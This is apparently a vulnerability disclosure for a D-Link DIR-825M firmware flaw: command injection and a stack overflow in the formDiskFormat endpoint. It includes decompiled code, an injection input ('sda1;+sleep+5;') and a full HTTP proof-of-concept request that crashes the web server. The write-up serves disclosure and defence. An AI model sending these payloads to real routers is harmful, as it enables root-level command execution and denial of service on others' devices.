



# D-Link Router DIR-825M - Buffer Overflow in /boafrm/formDiskFormat 

## Vulnerability Details

### Detail Information

| **Field**              | **Value**                                                    |
| ---------------------- | ------------------------------------------------------------ |
| **Vendor**             | D-Link                                                       |
| **Product**            | D-Link DIR-825M (and other models sharing the same firmware codebase) |
| **Affected Version**   | Firmware v1.1.8                                              |
| **Vulnerability Type** | Stack-based Buffer Overflow (CWE-121)、Command Injection (CWE-78) |
| **Vendor Homepage**    | https://www.dlink.com/                                       |

## Vulnerability Description

During a security review of the router's firmware, a critical vulnerability was identified in the `/boafrm/formDiskFormat` endpoint.

The vulnerability is located in the `sub_46725C` function, which handles partition formatting. The function retrieves the user-controlled `partition` parameter from the HTTP POST request. Without any prior sanitization, verification, or length checks on this parameter, the program performs several unsafe operations:

1. It uses `sprintf` to format the parameter into a small local stack buffer `v9` (allocated with only 132 bytes).
2. It directly passes the constructed command strings to `system()` to execute system utilities.

An attacker can exploit this by injecting shell metacharacters (such as `;`, `&`, or `|`) into the `partition` parameter to execute arbitrary system commands with root privileges, or by passing an oversized string to cause a stack buffer overflow and hijack control flow.

- **Vulnerability Location**: `/boafrm/formDiskFormat` (or similar disk format handling endpoint)
- **Vulnerable Function**: `sub_46725C`

## Root Cause

The vulnerability stems from two concurrent programming flaws: **unsafe string formatting** and **direct execution of unvalidated inputs in a system shell**.



### 1. Command Injection (CWE-78)

Inside `sub_46725C`, the `partition` parameter is fetched and stored in `v2`:

```c
v2 = (const char *)sub_41351C(a1, "partition", "");
```

If the parameter is not empty, the program immediately constructs an unmount command and executes it:

```c
sprintf(v9, "umount /dev/%s >/dev/null 2>&1", v2);
system(v9);
```

Since `v2` is directly embedded into the command string without sanitizing characters like `;`, an input of `sda1;+sleep+5;` will execute as:

```c
umount /dev/sda1; sleep 5; >/dev/null 2>&1
```

This directly triggers arbitrary shell command execution.

### 2. Stack-based Buffer Overflow (CWE-121)

The local buffer `v9` is declared on the stack with a limited size:

```c
char v9[132];
```

The program uses `sprintf` to copy the user input into `v9`:

```c
sprintf(v9, "mkdir -p /var/tmp/usb/%s >/dev/null 2>&1", v2);
```

Because `sprintf` does not perform bounds checking, a `partition` parameter longer than approximately 90 bytes will write past the boundary of `v9`, overwriting the stack frame, including the saved frame pointer and return address (`$ra` in MIPS/ARM).

## Impact

An attacker can exploit this vulnerability to achieve the following outcomes:

- **Arbitrary Command Execution**: Execute arbitrary shell commands on the router with highest (`root`) privileges.
- **Denial of Service (DoS)**: Overwrite the stack or corrupt memory to crash the Web server daemon, rendering the router's management panel completely inaccessible.

## Proof of Concept (PoC)

By supplying an oversized `partition` parameter, the stack will be corrupted, resulting in a segmentation fault and crashing the Web server daemon.

```http
POST /boafrm/formDiskFormat HTTP/1.1
Host: 192.168.0.1
Content-Length: 655
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/diskformat.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: webuicookie=16041526311804289383
Connection: keep-alive

partition=sda1aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&systype=ext2&Apply+Changes=Apply+Changes&submit_url=%2Fdiskinfo.htm
```

##  screenshots of the local reproduction

- Setting up the environment using firmae and Running the PoC via Burp Repeater



- Result:


